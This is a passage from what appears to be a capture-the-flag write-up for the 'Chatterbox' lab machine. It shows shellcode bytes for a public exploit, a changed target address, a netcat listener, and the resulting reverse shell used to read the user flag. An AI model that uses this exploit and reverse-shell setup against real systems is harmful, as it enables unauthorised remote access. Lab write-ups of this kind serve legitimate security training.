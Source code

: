 ```python
buf += b"\x67\x62\x31\x79\x78\x66\x6f\x7a\x5a\x70\x51\x46\x31"
buf += b"\x47\x63\x38\x46\x39\x45\x55\x72\x54\x73\x31\x6b\x4f"
buf += b"\x47\x65\x51\x75\x55\x70\x53\x44\x5a\x6c\x69\x6f\x30"
buf += b"\x4e\x4d\x38\x64\x35\x58\x6c\x43\x38\x5a\x50\x46\x55"
buf += b"\x74\x62\x71\x46\x49\x6f\x57\x65\x62\x48\x52\x43\x50"
buf += b"\x6d\x73\x34\x69\x70\x31\x79\x5a\x43\x30\x57\x6f\x67"
buf += b"\x4f\x67\x4e\x51\x4a\x56\x71\x5a\x6d\x42\x6f\x69\x50"
buf += b"\x56\x6b\x32\x39\x6d\x30\x66\x56\x67\x6f\x54\x6f\x34"
buf += b"\x6d\x6c\x5a\x61\x59\x71\x44\x4d\x71\x34\x6f\x34\x6c"
buf += b"\x50\x78\x46\x6b\x50\x61\x34\x61\x44\x42\x30\x50\x56"
buf += b"\x4f\x66\x70\x56\x4d\x76\x6f\x66\x30\x4e\x42\x36\x50"
buf += b"\x56\x51\x43\x52\x36\x63\x38\x31\x69\x76\x6c\x6f\x4f"
buf += b"\x64\x46\x79\x6f\x69\x45\x35\x39\x69\x50\x30\x4e\x70"
buf += b"\x56\x6d\x76\x59\x6f\x6c\x70\x72\x48\x4c\x48\x34\x47"
buf += b"\x4b\x6d\x43\x30\x59\x6f\x46\x75\x55\x6b\x78\x70\x36"
buf += b"\x55\x36\x42\x42\x36\x70\x68\x37\x36\x53\x65\x35\x6d"
buf += b"\x33\x6d\x4b\x4f\x49\x45\x4d\x6c\x5a\x66\x63\x4c\x49"
buf += b"\x7a\x71\x70\x39\x6b\x69\x50\x70\x75\x4b\x55\x57\x4b"
buf += b"\x6d\x77\x6c\x53\x43\x42\x50\x6f\x70\x6a\x6d\x30\x32"
buf += b"\x33\x69\x6f\x47\x65\x41\x41"
```

And after that ,we change `server_address` content.

![[Chatterbox-03.png]]
```
server_address = ('10.10.10.74', 9256)
```

And build up a listner for 1234 port.

```bash
nc -vlp 1234
```

run the exploit:

```bash
python 36025.py
```
![[Chatterbox-04.png]]

Excellent! we will get the shell.

```bash
whoami
# chatterbox\alfred
hostname
# Chatterbox
```

![[Chatterbox-05.png]]

```bash
cd C:\Users\Alfred\Desktop
dir
type user.txt
# flag
843820e8bd8bbe48b38c8999827acaa9
```
